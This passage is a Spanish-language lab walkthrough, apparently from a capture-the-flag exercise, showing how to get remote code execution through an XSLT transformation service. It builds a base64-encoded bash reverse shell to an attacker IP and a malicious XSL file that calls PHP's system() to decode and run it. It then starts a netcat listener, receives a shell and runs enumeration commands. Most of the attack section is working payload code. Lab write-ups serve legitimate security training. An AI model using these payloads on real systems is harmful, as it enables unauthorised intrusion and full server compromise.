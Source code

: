 > \[Nota] La dirección IP asignada a su instancia de Kali GUI sería ciertamente diferente. Asegúrese de reemplazarlo en los comandos posteriores.

A continuación, codificaremos en base64 la carga útil del shell inverso para evitar que se manipule mientras se carga a través de HTTP:

Mandar:

```
echo "/bin/bash -c 'bash -i>& /dev/tcp/192.170.91.2/54321 0>&1'" | base64 -w0 ; echo
```

> \[Nota] Asegúrese de reemplazar la dirección IP en el comando anterior.

Agregue la carga útil de shell inverso en el archivo XSL:

test.xsl:

```
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl"
version="1.0">
<!-- We add the PHP's xmlns -->
  <xsl:template match="/">
    <html>
      <!-- We use the php suffix to call the functions -->
      <xsl:value-of select="php:function('system','echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pPiYgL2Rldi90Y3AvMTkyLjE3MC45MS4yLzU0MzIxIDA+JjEnCg==|base64 -d|bash')" />
        <!-- Output: 'Php Can Now Be Used In Xsl' -->
      </html>
  </xsl:template>
</xsl:stylesheet>
```

> Tenga en cuenta que hemos agregado comandos para decodificar y ejecutar la carga útil de shell inverso en el servidor backend.

Inicie un agente de escucha de Netcat en la máquina atacante:

Mandar:

```
nc -lvp 54321
```

* Cargue el archivo XSL modificado:
* Ahora haz clic en el botón ¡Transformar! botón
* Observe que la página sigue cargándose
* Compruebe el terminal en el que se estaba ejecutando el agente de escucha de Netcat

> Hemos recibido una sesión de shell inverso del servidor de destino.

Paso 12: Recupera la bandera.

Ahora que tenemos una sesión de shell en el servidor de destino, podemos ejecutar comandos del sistema operativo y realizar alguna enumeración:

Comandos:

```
id
ps aux
```
